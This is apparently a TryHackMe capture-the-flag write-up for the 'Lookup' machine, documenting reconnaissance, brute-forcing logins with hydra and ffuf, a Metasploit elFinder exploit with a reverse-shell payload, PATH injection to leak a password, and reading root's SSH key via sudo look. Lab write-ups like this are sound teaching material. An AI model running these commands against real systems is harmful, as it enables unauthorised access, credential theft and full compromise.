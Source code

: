 # TryHackMe - Lookup (Easy)

## Reconnaissance
I started with standard scanning:


sudo nmap -sC -sV -oN lookup.thm xxxx
Open ports:

22 (SSH)

80 (HTTP)

I opened the website — there was a login form. I first tried admin:admin. The login worked, but the password was incorrect, which meant the username exists.

I immediately ran Hydra to brute-force the password:


hydra -l admin -P /usr/share/wordlists/rockyou.txt xxxx http-post-form "/login.php:username=^USER^&password=^PASS^:Incorrect"
The result was empty.

Then I decided to check other users using ffuf:


ffuf -u http://xxxx/login.php -d "username=FUZZ&password=test" -w /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -X POST -H "Content-Type: application/x-www-form-urlencoded" -mc 200
Found a second user: jose.

Gaining Access
Brute-forcing the password for jose:


hydra -l jose -P /usr/share/wordlists/rockyou.txt xxxx http-post-form "/login.php:username=^USER^&password=^PASS^:Incorrect"
Password found: jose:password123.

After logging in, the system suggested adding a new host:


echo "xxxx files.lookup.thm" | sudo tee -a /etc/hosts
Went to http://files.lookup.thm and saw the elFinder file manager. Checked its version and found an exploit using searchsploit elfinder.

In msfconsole, I used the module:


msfconsole
use exploit/multi/http/elfinder_php_connector_exec
set RHOSTS xxxx
set TARGETURI /elfinder/php/connector.minimal.php
set payload php/meterpreter/reverse_tcp
set LHOST tun0
run
Gained access as www-data.

Privilege Escalation — Switching to user think
Ran linpeas.sh:


./linpeas.sh
It showed the binary pwm running as root, which calls id and saves the output to ~/.passwords.

Tried a PATH injection:


echo "id_think" > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
After running the binary, I found the password for user think in ~/.passwords.

Logged in:


su think
This step was tricky but helped understand how PATH injection can reveal passwords.

Privilege Escalation — Root
Checked sudo privileges:


sudo -l
It turned out that think can run the binary look as root.

On GTFOBins, I found a way to use it to read files:


sudo look '' /root/.ssh/id_rsa
Copied the root key, saved it:


nano id_rsa
chmod 600 id_rsa
ssh -i id_rsa root@xxxx
Gained root access.

Additional Attempts
I tried CVE-2021-3560 (mentioned in linpeas report), but it didn’t work. The main working path was through look and the root private key.

New Knowledge and Commands
ffuf has special user lists.

For brute-force, it’s important to specify the exact file, e.g., login.php.

Practical experience with PATH injection via export PATH=/tmp:$PATH.

Experience with sudo -l and GTFOBins.

Using private keys to gain root access via SSH.

Conclusion
Managed to complete the machine:

Reconnaissance: nmap, ffuf, hydra
Exploitation: elFinder via msfconsole
Privilege Escalation: PATH injection → user think
Privileges: sudo look → root via SSH key

Although there were challenges (especially understanding PATH injection and password brute-forcing), the experience was very useful.
